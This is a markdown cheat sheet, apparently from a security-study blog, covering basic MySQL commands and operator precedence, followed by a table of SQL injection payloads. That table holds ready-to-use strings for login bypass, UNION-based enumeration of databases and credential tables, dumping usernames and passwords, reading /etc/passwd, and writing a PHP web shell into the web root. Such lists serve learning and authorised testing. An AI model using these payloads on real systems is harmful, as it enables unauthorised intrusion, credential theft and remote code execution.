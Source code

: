 ```yaml
---
layout: post
category: cheatsheets
---
```


### Table of Contents

- [MySQL](#mysql)
    - [General Commands](#general-commands)
    - [Mysql Operator Precedence](#mysql-operator-precedence)
    - [SQL Injection](#sql-injection)


## [MySQL](#mysql)

| **Command**   | **Description**   |
| --------------|-------------------|
| [**General Commands**](#general-commands) |
| ```mysql -u root -h server -P 3306 -p``` | login to mysql database |
| ```SHOW DATABASES``` | List available databases |
| ```USE users``` | Switch to database |
| **Tables** |
| ```CREATE TABLE logins (id INT, ...)``` | Add a new table |
| ```SHOW TABLES``` | List available tables in current database |
| ```DESCRIBE logins``` | Show table properties and columns |
| ```INSERT INTO table_name VALUES (value_1,..)``` | Add values to table |
| ```INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)``` | Add values to specific columns in a table |
| ```UPDATE table_name SET column1=newvalue1, ... WHERE <condition>``` | Update table values |
| **Columns** |
| ```SELECT * FROM table_name``` | Show all columns in a table |
| ```SELECT column1, column2 FROM table_name``` | Show specific columns in a table |
| ```DROP TABLE logins``` | Delete a table |
| ```ALTER TABLE logins ADD newColumn INT``` | Add new column |
| ```ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn``` | Rename column |
| ```ALTER TABLE logins MODIFY oldColumn DATE``` | Change column datatype |
| ```ALTER TABLE logins DROP oldColumn``` | Delete column |
| **Output** |
| ```SELECT * FROM logins ORDER BY column_1``` | Sort by column |
| ```SELECT * FROM logins ORDER BY column_1 DESC``` | Sort by column in descending order |
| ```SELECT * FROM logins ORDER BY column_1 DESC, id ASC``` | Sort by two-columns |
| ```SELECT * FROM logins LIMIT 2``` | Only show first two results |
| ```SELECT * FROM logins LIMIT 1, 2``` | Only show first two results starting from index 2 |
| ```SELECT * FROM table_name WHERE <condition>``` | List results that meet a condition |
| ```SELECT * FROM logins WHERE username LIKE 'admin%'``` | List results where the name is similar to a given string |

## [MySQL Operator Precedence](#mysql-operator-precedence)
* Division (```/```), Multiplication (```*```), and Modulus (```%```)
* Addition (```+```) and Subtraction (```-```)
* Comparison (```=```, ```>```, ```<```, ```<=```, ```>=```, ```!=```, ```LIKE```)
* NOT (```!```)
* AND (```&&```)
* OR (```||```)

## [SQL Injection](#sql-injection)

| **Payload** | **Description**   |
| ------------|-------------------|
| **Auth Bypass** |
| ```admin' or '1'='1``` | Basic Auth Bypass |
| ```admin')-- -``` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| ```' order by 1-- -``` | Detect number of columns using ```order by``` |
| ```cn' UNION select 2,2,3-- -``` | Detect number of columns using Union injection add a value everytime |
| ```cn' UNION select 1,@@version,3,4-- -``` | Basic Union injection, Find where you can return data |
| ```UNION select username, 2, 3, 4 from passwords-- -``` | Union injection for 4 columns |
| **DB Enumeration** |
| ```SELECT @@version``` | Fingerprint MySQL with query output |
| ```SELECT SLEEP(5)``` | Fingerprint MySQL with no output |
| ```cn' UNION select 1,database(),2,3-- -``` | Current database name |
| ```cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -``` | List all databases |
| ```cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -``` | List all tables in a specific database |
| ```cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -``` | List all columns in a specific table |
| ```cn' UNION select 1, username, password, 4 from dev.credentials-- -``` | Dump data from a table in another database |
| **Privileges** |
| ```cn' UNION SELECT 1, user(), 3, 4-- -``` | Find current user |
| ```cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -``` | Find if user has admin privileges |
| ```cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -``` | Find if all user privileges |
| ```cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -``` | Find which directories can be accessed through MySQL |
| **File Injection** |
| ```cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -``` | Read local file |
| ```select 'file written successfully!' into outfile '/var/www/html/proof.txt'``` | Write a string to a local file |
| ```cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -``` | Write a web shell into the base web directory |